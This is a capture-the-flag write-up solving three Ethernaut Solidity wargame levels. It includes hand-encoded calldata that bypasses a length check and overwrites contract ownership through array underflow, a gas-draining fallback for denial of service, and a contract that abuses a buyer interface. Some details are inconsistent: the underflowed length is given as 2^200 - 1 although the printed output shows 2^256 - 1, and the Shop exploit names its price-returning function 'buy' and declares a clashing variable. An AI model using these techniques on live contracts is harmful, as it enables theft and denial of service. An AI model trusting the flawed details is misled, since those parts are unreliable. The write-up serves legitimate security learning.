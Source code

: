 Title: Ethernaut wargame Lvl. 20-22
Date: 2018-12-27 10:01
Modified: 2018-12-27 10:01
Category: ctf
Tags: ctf, ethereum, solidity
Slug: Ethernaut_wargame2022
Authors: F3real
Summary: How to solve Ethernaut wargame lvl. 20-22

Ethernaut is great wargame teaching wide variety of Solidity security concepts. 
Currently it offers 22 levels with varied difficulty. It can be found [here](https://ethernaut.zeppelin.solutions/).

[TOC]

## Lvl 20 Alien Codex

~~~solidity
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
~~~

Looking at the code we see that first problem we have to overcome is modifier `contacted`. Length of content we need to send has to be greater then 2^200, which is impossible. We can bypass this due to fact that EVM doesn't validate an array's ABI-encoded length vs its actual payload. We will manually encode payload to send in similar way we have done in [Blockchain CTF]({filename}/blockchain_ctf.md) challenges.

Payload:
~~~text
1d3d4c0b
0000000000000000000000000000000000000000000000000000000000000020
1000000000000000000000000000000000000000000000000000000000000000
~~~

First line is function identifier. It consists of first 32bits of `sha3("make_contact(bytes32[])")`.
Second line shows us offset of array content, in our case it points to third line. Array content starts with length of array, after which actual array elements come (in our case we will just leave it empty).

A lot of values for array length greater then 2^200 cause out of gas exception on CALLDATACOPY instruction. It is probably related to internal way EVM handles it, and is actually really interesting and probably worth looking into more.

~~~javascript
web3.eth.defaultAccount = web3.eth.accounts[0];
var tokenContractAddress = "0x7bd16279c000a2a2bad3080bbf04e111c12c5e9e"
var tx = {
    to : tokenContractAddress,
    data : "0x1d3d4c0b00000000000000000000000000000000000000000000000000000000000000201000000000000000000000000000000000000000000000000000000000000000"
}
web3.eth.sendTransaction(tx, (err,res)=>{console.log(err,res);});
~~~

Anyway after we bypassed modifier second thing is to call `retract` function. This will cause underflow on `codex` array and change its length to 2^200 - 1.
This will enable us to access and modify all of contract storage. As a reminder, storage of contract consists of `2**256` 32 byte slots.

Variables are ordered in the way they are declared. Address owner (inherited from Ownable) is occupying first slot together with `boolean` variable `contacted` due to both of them being smaller then 32 bytes (`addresses` are 20 bytes and `boolean` is one byte). Second slot contains length of `codex` array.

We can access both of them trough public getter or trough `getStorageAt` method of web3:
~~~javascript
web3.eth.getStorageAt(
  tokenContractAddress, 
  slot,
  function (err, result) {
    console.log((web3.toHex(result))); 
  }
);
~~~

Output:

~~~text
0: 0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
1: 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
~~~

Formula for locating slot corresponding to array index is:
```keccak256(slot) + index ```

This means we have to calculate index in the way it overflows max value and points to first slot:

```index = 2**256 - keccak256(bytes32(1))```

After we get our index we just have to call `revise` function and overwrite current owner address with ours to win.
Address has to be padded to the left with zeroes.

## Lvl 21 Denial

~~~solidity
pragma solidity ^0.4.24;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
~~~

To win this level we have to prevent owner from withdrawing funds. Before funds get transferred to owner there is `partner.call.value(amountToSend)();`, which we can exploit. Since no gas amount has been specified, all gas will be sent to fallback function of partner address.

We can write contract with fallback function that will trigger assert and thus spend all gas, making it so that owner can't withdraw.

~~~solidity
    function() public payable{
        assert(false);
    }
~~~

## Lvl 22 Shop

~~~solidity
pragma solidity 0.4.24;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
~~~

In this level we need to exploit interface Buyer. Our function `price` has to return different values, in two different calls. 

Only problem is that we can't use storage, since just modifying value costs 5000 gas and we have only 3000 available. Good thing is that `isSold` variable from Shop contract is public and we can access it with the gas we have.

~~~solidity
pragma solidity 0.4.24;

import './Shop.sol';

contract Pwn is Buyer {
  uint public price = 100;
  Shop shop = Shop(0x3a13E6F0EF2498CAbD0b49c7F5B1FA1AeD465125);
  
  function buy() external view returns (uint) {
      return shop.isSold()==true?0:100;  
  }
  
  function pwn() external{
      shop.buy();
  }
}
~~~